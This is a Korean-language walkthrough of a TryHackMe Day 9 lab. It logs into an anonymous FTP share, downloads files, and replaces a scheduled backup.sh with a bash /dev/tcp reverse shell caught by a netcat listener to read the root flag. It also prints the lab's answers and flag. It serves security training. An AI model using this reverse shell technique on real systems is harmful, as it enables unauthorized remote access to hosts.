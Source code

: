 # Day 9 | Networking Anyone can be Santa!

## Workstation
- Virtual Box : VMware Fusion 12.1.2
- OS : kali-linux-2021.2

## Walkthrough
![attackbox](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/attackbox.png)

Question #1: Name the directory on the FTP server that has data accessible by the "anonymous" user

> public

```
$ sudo ftp 10.10.65.80
```

위 명령어 사용 후 `anonymous`로 로그인 한다.

![anonymous](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/anonymous.png)

Question #2: What script gets executed within this directory?

> backup.sh

로그인 성공 후 디렉터리를 조사하면 2개의 파일을 찾을 수 있는데 실행 가능한 파일은 `backup.sh` 이다.

![ls](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/ls.png)

Question #3: What movie did Santa have on his Christmas shopping list?

> The Polar Express

디렉터리 안에 2개의 파일 중 shoppinglist.txt 파일을 `get` 명령어로 다운받아 확인한다.

![list](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/list.png)

![catlist](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/catlist.png)

Question #4: Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

> THM{even_you_can_be_santa}

backup.sh 파일을 다운받는다.

![backup](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/backup.png)

![catbackup](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/catbackup.png)

리버스쉘을 얻기 위해 vi 편집기를 사용해 코드를 변경해준다.

```
#!/bin/bash

bash -i >& /dev/tcp/MY_IP/4444 0>&1
```

![bash](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/bash.png)

그리고 편집한 backup.sh 파일을 업로드하기 전 새로운 터미널을 열어 4444번 포트로 Netcat을 실행해 준다.

```
$ sudo nc -lvnp 4444
```

![nc](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/nc.png)

Netcat 리스너를 실행 후 ftp로 다시 접속해 `put` 명령어로 변경한 파일 backup.sh를 업로드 해준다.

![put](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/put.png)

업로드가 되면 Netcat 리스너에서 리버스쉘을 접속해 flag를 얻을 수 있다.

![flag](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/25%20Days%20of%20Cyber%20Security/Day%209/image/flag.png)
